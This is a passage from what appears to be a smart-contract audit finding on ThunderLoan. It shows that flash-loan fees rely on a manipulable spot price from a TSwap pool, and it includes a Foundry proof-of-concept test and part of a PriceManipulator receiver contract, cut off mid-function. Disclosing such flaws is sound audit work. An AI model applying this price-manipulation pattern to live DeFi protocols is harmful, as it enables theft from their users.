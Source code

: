 This Means if We Have `100 WETH` and `100 Token A` in That Pool, it Means `1 Token A` is Equal to `1 WETH`. Now If Attacker Sends `900 Token A` to that Pool and now We Have `1000 Token A` and `100 WETH`, Each `Token A` is Equal to `0.1 WETH`. So Attacker Manipulated The Price and Now Can Take the Flash Loan With Much Less Fee.

Add this Test To `ThunderLoanTest.t.sol`:

```javascript
   function testPriceOfFeeCalculationInFlashLoanCanBeManipulated() public setAllowedToken hasDeposits {
        // MockTSwapPool Returns 1e18 WETH for Each Token A
        // If Attacker Sends Large Amounts Of Token A to that Pool, The Price of Token A Will Deflate and Attacker Will Take The Second Flash Loan Much Cheaper
        // First Lets take a Flash Loan When Price of Each Token A is Equal to 1e18.

        PriceManipulator priceManipulator = new PriceManipulator(thunderLoan, tokenA);
        tokenA.mint(address(priceManipulator), 2e18);
        uint256 firstFlashLoanFee = thunderLoan.getCalculatedFee(tokenA, 1e10);
        thunderLoan.flashloan(address(priceManipulator), tokenA, 1e10, "");

        // Attacker Sends Huge Amounts of Token A to TSwap Pool Which Causes the Price of Each Token A Deflate to 1e15

        thunderLoan.setPrice(address(tokenA), 1e15);
        uint256 secondFlashLoanFee = thunderLoan.getCalculatedFee(tokenA, 1e10);
        thunderLoan.flashloan(address(priceManipulator), tokenA, 1e10, "");

        console.log("First Flash Loan Fee: ", firstFlashLoanFee);
        console.log("Second Flash Loan Fee: ", secondFlashLoanFee);

        assert(firstFlashLoanFee > secondFlashLoanFee);
    }
```

and this is the Flash Loan Receiever Contract:

```javascript
      contract PriceManipulator {

         ThunderLoan thunderLoan;
         ERC20Mock tokenA;
         MockTSwapPool tswapPool;

         bool isFirstFlashLoan = true;
         uint256 public secondFlashLoanFee;

         constructor(ThunderLoan _thunderLoan, ERC20Mock _tokenA) {
            thunderLoan = _thunderLoan;
            tokenA = _tokenA;
         }

         function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address /*initiator*/,
            bytes calldata /*  params */
         )
            external
            returns (bool)
         {
            if (isFirstFlashLoan) {
                  IERC20(token).approve(address(thunderLoan), amount + fee);
                  IThunderLoan(address(thunderLoan)).repay(token, amount + fee);
                  isFirstFlashLoan = false;
                  return true;
```